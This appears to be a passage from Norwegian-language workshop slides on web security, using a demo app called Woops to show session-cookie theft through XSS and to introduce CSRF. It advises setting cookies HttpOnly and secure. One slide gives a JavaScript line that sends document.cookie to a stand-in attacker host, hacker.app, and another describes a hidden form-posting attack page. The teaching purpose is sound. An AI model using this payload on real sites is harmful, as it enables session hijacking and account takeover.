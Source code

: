 - [Hacker.app](http://hacker.app:3000/xss?content=Cookie)

---
class: middle

# Demo

- Vis sesjonshåndtering i Woops
- Se på sesjons-cookie
- Ikke `HttpOnly`

Stjel sesjon-cookien fra annen bruker med js:

```js
new Image().src='http://hacker.app:3000/xss?content='+escape(document.cookie);
```
---
class: middle

# Lærdom

Brukers sesjon ble stjålet!

- _Alltid_ sett sesjons-cookie til `HttpOnly`
- _Alltid_ sett til `secure` hvis site på HTTPS

---
class: middle
# Angrep 3

## CSRF

---
class: middle

# CSRF

- Man kan lure brukere til å utføre handlinger på en site uten å vite/samtykke
- Vi skal lure bruker til å gjøre overføring i woops

---
class: middle

# Angreps-app

- En hyggelig site, men som skjult poster skjema-data mot Woops
- Lur inn brukere med f.eks mail
---
class: middle
